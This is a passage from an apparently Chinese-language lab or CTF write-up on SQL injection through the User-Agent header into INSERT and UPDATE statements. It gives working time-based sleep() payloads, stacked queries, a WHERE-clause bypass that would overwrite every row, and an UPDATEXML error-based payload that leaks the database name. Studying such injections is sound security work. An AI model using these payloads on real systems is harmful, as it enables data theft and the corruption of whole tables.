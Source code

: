 ```sql
-- 猜测原始语句
INSERT INTO uagent (`uagent`,`username`) VALUES ('$uagent','$uname');
UPDATE uagent SET uagent='$uagent' where username='$username';
```

1. `mock-ver01` 模拟 : 构造 SQL 语句测试， 如果插入 `VALUES` 数量不等， 则会出现 SQL 语句错误。
2. `mock-ver02` 模拟 : 所有字段猜测正确执行成功， 可以执行。
    + **注意** 但在实际测试时。 由于时两条语句。 sleep(10) 被跳过了。 因此，或许只能在 一条语句中。
3. `mock-ver03` 模拟 : 字段数量正确，但 `id` 数据类型有误，SQL 通不过， 执行被跳过。


```sql 
-- mock-ver01
INSERT INTO uagent (`uagent`,`username`) VALUES ('Mozilla 5.0' or (select sleep(5))) -- 1 ,'$uname');


-- mock-ver02
INSERT INTO uagent(`username`,`uagent`) VALUES ('Mozilla 5.0', 'gg') ; SELECT sleep(10); -- gg ','$uagent'); 

-- mock-ver03
INSERT INTO uagent(`username`,id) VALUES ('Mozilla 5.0', 'gg') ; SELECT sleep(10); -- gg ','$uagent'); 

```

![mysql-uagent-insert-sql-mock-error-column-not-match.png](/assets/img/post/2020/12/12/mysql-uagent-insert-sql-mock-error-column-not-match.png)


如果原语句是 Update 语句。 

1. `mock sql ver01` 模拟: 虽然可以利用，但是由于 where 语句被屏蔽了导致所有数据被更新。 **三年起步, 三年起步**
2. `mock sql ver01` 模拟: 在 UPDATE 语句上更新 `Where` 条件屏蔽更新。 **狗命要紧**

```sql
-- mock sql ver01
UPDATE uagent SET uagent='Mozila 5.0' ;  (SELECT SLEEP(10)) -- gg ' where username='$username';

-- mock sql ver02
UPDATE uagent SET uagent='Mozila 5.0' WHERE 2<1 ;  (SELECT SLEEP(10)) -- gg ' where username='$username';

```

### 0x02.3 使用 updatexml() 进行报错利用

在本地 mock 语句。 与上面预测的一样， 仅在一条 `Insert` 语句中， 可以使用 ** UPDATEXML 报错注入**。

payload: `mozilla' , UPDATEXML(1,CONCAT(0x7e,database(),0x7e),1))  -- gg `

```sql
INSERT INTO uagent (`uagent`,`username`) VALUES ('mozilla' , UPDATEXML(1,CONCAT(0x7e,database(),0x7e),1))  -- gg ','$username') 

-- 报错信息 1105 - XPATH syntax error: '~zkaq~', Time: 0.002000s
```
